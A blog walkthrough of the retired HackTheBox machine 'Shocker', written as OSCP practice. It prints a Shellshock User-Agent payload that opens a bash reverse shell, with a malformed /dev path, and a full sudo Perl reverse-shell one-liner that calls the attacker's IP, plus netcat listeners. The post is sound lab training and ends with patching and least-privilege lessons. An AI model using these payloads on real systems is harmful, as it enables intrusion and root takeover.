

This is the 7th blog out of a series of blogs I will be publishing on retired HTB machines in preparation for the OSCP. The full list of OSCP like machines compiled by TJnull can be found [here](https://docs.google.com/spreadsheets/u/1/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/htmlview#).

Let’s get started!

# Reconnaissance

First thing first, we run a quick initial nmap scan to see which ports are open and which services are running on those ports.

```
nmap -sC -sV -O -oA htb/shocker/nmap/initial 10.10.10.56
```

- **-sC**: run default nmap scripts

- **-sV**: detect service version

- **-O**: detect OS

- **-oA**: output all formats and store in file _nmap/initial_

We get back the following result showing that two ports are open:

- **Port 80: **running Apache httpd 2.4.18

- **Port 2222**: running OpenSSH 7.2p2



Before we start investigating these ports, let’s run more comprehensive nmap scans in the background to make sure we cover all bases.

Let’s run an nmap scan that covers all ports.

```
nmap -sC -sV -O -p- -oA htb/shocker/nmap/full 10.10.10.56
```

We get back the following result. No other ports are open.



Similarly, we run an nmap scan with the **-sU **flag enabled to run a UDP scan.

```
nmap -sU -O -p- -oA htb/shocker/nmap/udp 10.10.10.56
```

I managed to root the box and write this blog, while this UDP scan still did not terminate. So for this blog, I don’t have the UDP scan results.

# Enumeration

Let’s enumerate more on the open ports.

SearchSploit does not generate any useful exploits that we can use.

```
searchsploit --id httpd
searchsploit --id openssh 7.2p2
```

Next, visit the Apache server on the browser.



We get a page that does not have links to any other pages. Therefore, we’ll run Gobuster to enumerate directories.

```
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 10.10.10.56
```

This leads us to another dead end. It only discovered one directory that we don’t have access to.



Given the name of the machine, I have a suspicion that it is vulnerable to the Shellshock bash remote code execution vulnerability. This vulnerability affected web servers utilizing CGI (Common Gateway Interface), which is a system for generating dynamic web content. This usually involved directories such as /cgi-sys, /cgi-mod, /cgi-bin, etc. I’ll manually try them on the web server to see if they exist.

/cgi-sys and /cgi-mod do not exist on the web server. However /cgi-bin does. It was interesting to note the behaviour of the web server when I add /cgi-bin versus /cgi-bin/ to the URL path.



/cgi-bin/ gave me a 403 (you don’t have access to this resource) and /cgi-bin gave me a 404 (resource not found). It seems that if we don’t add the “/” at the end of the URL, the server is interpreting it as a file instead of a directory (maybe, I’m not too sure).

Now it makes sense why Gobuster did not find the directory. It checked the url “10.10.10.56/cgi-bin”, got a 404 and therefore didn’t report it. The “-f” flag appends “/” to each request. So let’s run Gobuster again.

```
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 10.10.10.56 -f
```

It finds the directory!



Now we need to enumerate more on the /cgi-bin/ directory. I’ll look for files with extensions “sh” and “cgi”.

```
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 10.10.10.56/cgi-bin/ -x sh,cgi
```

- **-x**: file extensions to search for



I get back a bash script (user.sh). When I visit the URL, it prompts me to download the file.


Opening the file shows us the following content.



Fire up burp and intercept the request to the bash script. The send it to Repeater.



The above image shows the request to the bash script and the response we get from the server. Now let’s try to see if it is vulnerable to shellshock.

# Gaining an Initial Foothold

I googled “shellshock reverse shell” and found this [blog](http://www.fantaghost.com/exploiting-shellshock-getting-reverse-shell) explaining how to exploit the shellshock vulnerability to get a reverse shell on the system the web server is running on.

First add the following string in the User Agent field in Burp.

```
() { ignored;};/bin/bash -i >& /dev/10.10.14.6/4444/port 0>&1
```

Then start up a listener on your attack machine using the same configuration in the above string.

```
nc -nlvp 4444
```

Go back to Burp and execute the request.



Burp shouldn’t give you a response if the exploit worked. Go back to your listener and check if you got a shell back.



We got back a low privileged shell! Grab the user flag.



It’s time to escalate privileges.

# Privilege Escalation

Run the following command to determine what permissions you have.

```
sudo -l
```



Yikes, I can run perl as root! Well, it’s yay for me and yikes for the system administrator. If I use perl to send a reverse shell back to my machine it will get executed with the same privileges that perl is running in. So if I run perl with sudo privileges, I’ll get back a reverse shell with root privileges.

Go to [pentestmonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) and grab the perl code for a reverse shell. Don’t forget to add sudo at the beginning.

```
sudo perl -e 'use Socket;$i="10.10.14.6";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

Before you execute the code, start up a listener on your attack machine with the same configuration as the above code.

```
nc -nlvp 1234
```

Execute the code and we have root!



Grab the root flag.



# Lessons Learned

I’ve never seen or had to use the “-f” flag with Gobuster, so that was something new that I learned while solving this box. I’ll definitely keep it in mind when I solve future boxes.

As for vulnerabilities, I counted three. The first being a web server insecure misconfiguration. I wasn’t allowed to access the /cgi-bin directory but for some reason I was allowed to access the user.sh file inside of that directory. The administrator should have restricted access to all the files in the directory.

The second vulnerability is that the web server was executing bash commands on a system that was running a version of Bash that was vulnerable to the Shellshock vulnerability. This allowed us to gain initial access to the system. Of course a patch is available and the administrator should have patched his system.

The third vulnerability is insecure system configuration. You should always conform to the principle of least privilege and the concept of separation of privileges. Giving the user sudo access to run perl, allowed me (the attacker) to escalate privileges.

# Conclusion

7 machines down, 34 more to go!

